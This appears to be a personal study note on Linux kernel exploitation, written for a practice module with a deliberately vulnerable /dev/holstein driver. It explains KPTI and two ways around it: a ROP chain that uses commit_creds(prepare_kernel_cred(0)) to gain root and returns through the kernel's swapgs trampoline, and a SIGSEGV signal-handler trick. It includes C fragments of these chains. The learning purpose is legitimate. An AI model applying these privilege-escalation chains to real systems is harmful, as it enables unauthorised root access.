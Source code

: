 some prerequisites...

### What KPTI really is?

read this [description](https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/#adding-kpti) or [this](https://github.com/5o1z/kNotes/tree/main/LKE/LK01/HolsteinV1#exploit-bypass-kpti-with-smep-smap-and-no-aslr)

**TL;DR**:

...`KPTI` **separating user-space and kernel-space page tables** entirely, isolating user space and kernel space memory... Our `ROP` exploit above will `segment fault` because even though we have return to the usermode, the page table it is using is still the kernel's, with all the pages in userland marked as non-executable...

### Bypass KPTI with Trampoline

Kernel has method of transitioning between userspace and kernelspace page tables.

How it works and how to abuse? Read [this](https://github.com/vilesport/Kernel-exploit/tree/main/Kernel%20Exploit%20Basics/LK01/HTV1#swapgs_restore_regs_and_return_to_usermode) and [this](https://github.com/5o1z/kNotes/tree/main/LKE/LK01/HolsteinV1#bypass-kpti-with-trampoline)

**Summary**:

There is a function in kernel handle transitioning between userspace and kernelspace, names `swapgs_restore_regs_and_return_to_usermode`.

So instead of ROP directly to `swaps` and `iretq` gadgets, just need to ROP into that function, similar to this:

```C
    rop[inc] = pop_rdi;
    rop[inc] = 0;
    rop[inc] = prepare_kernel_cred;
    rop[inc] = pop_rcx;
    rop[inc] = 0;
    rop[inc] = mov_rdi_rax;
    rop[inc] = commit_creds;
    rop[inc] = swapgs_n_ret2usr_chain;
    rop[inc] = 0; // [rdi]
    rop[inc] = 0; // [rdi + 8]
    rop[inc] = user_rip;
    rop[inc] = user_cs;
    rop[inc] = user_rflags;
    rop[inc] = user_rsp;
    rop[inc] = user_ss;
```

### Bypass KPTI with Signal Handler

> remember SROP in userland?

From the result that `sigsev` is in the userland, so if the current program have signal handler `SIGSEGV` code with the function handle is `get_shell`, when program hit `SIGSEGV` it will call `get_shell` with cleared `cr3` and no more hit `SIGSEGV` by `KPTI`.

**Summary**:

Use the same exploit code from `krop` exploit, then assign a signal handler for `sigsegv`, similar to this:

```C
...
int main()
{
    signal(SIGSEGV, win);

    save_state();
    
    dev_fd = open("/dev/holstein", 2);
    if(dev_fd < 1) puts("[!] fail fd");

    prepare_rop_chain();
    overflow();

    puts("[!] should never be reached");
}
...
```

**Question**:

From [lkmidas](https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/#introduction-1):

 > ...I still don’t fully understand this though, because for whatever reasons, even though the handler `get_shell()` itself also resides in non-executable pages, it can still be executed normally if a `SIGSEGV` is caught (instead of looping the handler indefinitely or fallback to default handler or undefined behavior, etc.), but it does work...
 
Is [this](https://unix.stackexchange.com/questions/80044/how-signals-work-internally) the answer?

> ...If the disposition is handle, then it means there is a function in the user program which is designed to handle the signal in question and the pointer to this function will be in the aforementioned data structure. In this case `do_signal()` calls another kernel function, `handle_signal()`, which then goes through the process of switching back to user mode and calling this function. The details of this handoff are extremely complex. This code in your program is usually linked automatically into your program when you use the functions in `signal.h`....

### Bypass KPTI with User Mode Helpers

(update this)

Have not learned it yet but [here](https://blog.wohin.me/posts/linux-kernel-pwn-01/) (maybe [this](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/) too)...

### KPTI: +smep, +smap, kpti=on, no kaslr

 No comment

> both exploit in the same folder